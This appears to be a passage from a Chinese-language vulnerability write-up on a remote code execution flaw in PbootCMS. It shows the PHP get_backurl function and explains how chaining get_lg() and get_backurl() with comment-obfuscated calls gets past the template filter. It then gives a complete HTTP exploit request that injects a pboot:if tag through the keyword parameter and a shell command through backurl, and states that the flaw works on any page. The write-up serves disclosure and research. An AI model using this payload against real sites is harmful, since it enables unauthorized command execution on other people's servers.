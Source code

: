 get_backurl从get取

```php
// 获取返回URL
function get_backurl()
{
    if (! ! $backurl = get('backurl')) {
        if (isset($_SERVER["QUERY_STRING"]) && ! ! get('p')) {
            return "&backurl=" . $backurl;
        } else {
            return "?backurl=" . $backurl;
        }
    } else {
        return;
    }
}
```



所以使用这两个函数 搭配函数执行方式 就能绕过正则

### 2 利用:

```http
GET /index.php/keyword?keyword=}{pboot:if((get_lg/*suanve-*/())/**/(get_backurl/*suanve-*/()))}123321suanve{/pboot:if}&backurl=;id HTTP/1.1
Host: localhost:80
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: XDEBUG_SESSIO1N=17340; lg=system; PbootSystem=8g1gcjum9vbcbqeh6epc5hlloa
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Content-Length: 2



```

![image-20211122024659767](https://github.com/suanve/files/blob/main/image-20211122024659767.png?raw=true)

#### 任意页面皆可rce

根据刚刚所说的 他实际上不是search控制器的问题所以任意页面都可以调用
